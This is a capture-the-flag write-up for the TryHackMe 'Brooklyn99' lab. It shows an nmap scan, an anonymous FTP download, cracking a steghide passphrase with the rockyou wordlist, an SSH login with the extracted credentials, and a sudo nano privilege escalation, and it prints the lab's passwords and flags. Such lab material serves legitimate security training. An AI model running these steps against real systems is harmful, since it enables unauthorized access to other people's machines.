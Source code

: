 ```yaml
---
title: "TryHackMe - Brooklyn99"
author: Mnemosyne
date: "2023-04-08"
subject: "Brooklyn99 Writeup"
keywords: [THM, CTF, Brooklyn99, TryHackMe, Security]
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-rule-height: 0
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: "/home/kali/Desktop/tryhackme/images/thm_cover.png"
---
```

\pagebreak

<div style="page-break-after: always"></div>
## Nmap

We begin our reconnaissance by running an Nmap scan checkign default scripts and testing for vulnerabilities.

```console
$ nmap -sC -sV -vv 10.10.41.112 -oA results
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-08 20:02 EDT
...
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.58.120
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
...
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel.
```

We see now that there are three ports that are open:
\begin{itemize}
\item FTP port 21 - Anonymous login allowed
\item SSH port 22
\item HTTP port 80
\end{itemize}

Let's start with the FTP port first.
\pagebreak

<div style="page-break-after: always"></div>
<div style="page-break-after: always"></div>
## FTP port 21


We will login as anonymous through FTP. The password is usually blank when the user is "Anonymous". Logging in we see that there is a file called "note_to_jake.txt".

```console
$ ftp 10.10.41.112
Connected to 10.10.41.112.
220 (vsFTPd 3.0.3)
Name (10.10.41.112:kali): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> mget *
mget note_to_jake.txt [anpqy?]? 
229 Entering Extended Passive Mode (|||30422|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |****************************************************|   119        1.29 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (0.66 KiB/s)
ftp> bye
221 Goodbye.
```

Now that we have the note let's see what the note says:

```console
$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Ok it seems that Jake's password is weak. This either means that Jake's SSH password is weak or there is some web app that has a weak password. We can use Hydra to crack Jake's password. For now, let's visit the site.
\pagebreak

## HTTP Port 80

Visiting the site we see the main Brooklyn 99 show cover. Let's inspect the web page's source code.


![Home Page](website.png)

![Source Code](source_code.png)

Steganography is the technique of hiding information in plain sight. For example, text can be hidden in other texts, images, sounds, and even gifs. It seems that there might be information hidden in the image on the home page.

\pagebreak
## Steganography

We will use the steghide tool to extract information from the Brooklyn 99 image.

```console
$ steghide extract -sf brooklyn_steg.jpg
Enter passphrase: 
steghide: cannot uncompress data. compressed data is corrupted.
```

It seems that the image is password protected. We will use another tool, stegcracker, to crack the password.
By default, stegcracker uses the rockyou wordlist if a wordlist isn't provided.

```console
$ stegcracker brooklyn_steg.jpg -o stegpass.txt   
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2023 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'brooklyn_steg.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20523 passwords
Your file has been written to: stegpass.txt
admin
```
Thus the password is **admin**. Let's use steghide to crack the image again.

```console
$ steghide extract -sf brooklyn_steg.jpg       
Enter passphrase: 
wrote extracted data to "note.txt".
                                                                                                 
$ cat note.txt        
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

So it seems Holt's password is **fluffydog12@ninenine**. Let's SSH into the box using these credentials.

\pagebreak
## User flag

```console
ssh login:
$ ssh holt@10.10.41.112                 
The authenticity of host '10.10.41.112 (10.10.41.112)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.41.112' (ED25519) to the list of known hosts.
holt@10.10.41.112's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ ls
nano.save  user.txt
holt@brookly_nine_nine:~$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee
```

Thus the user flag is: **ee11cbb19052e40b07aac0ca060c23ee**.

## Privilege Escalation

Now that we have the user flag, we need to get the root flag. Let's see if there's anyway to escalate our privileges.

```console
holt@brookly_nine_nine:/home$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

So user holt can run nano using **sudo** without a password. Thankfully, **nano** has a privilege escalation vulnerability as can be see on [GTFObins](https://gtfobins.github.io/gtfobins/nano/#sudo).

![Nano Sudo Vulnerability](priv_esc.png)

## Root Flag

Let's exploit this vulnerability and gain the root flag:

![](root_flag.png)

Now we have our root flag: **63a9f0ea7bb98050796b649e85481845**
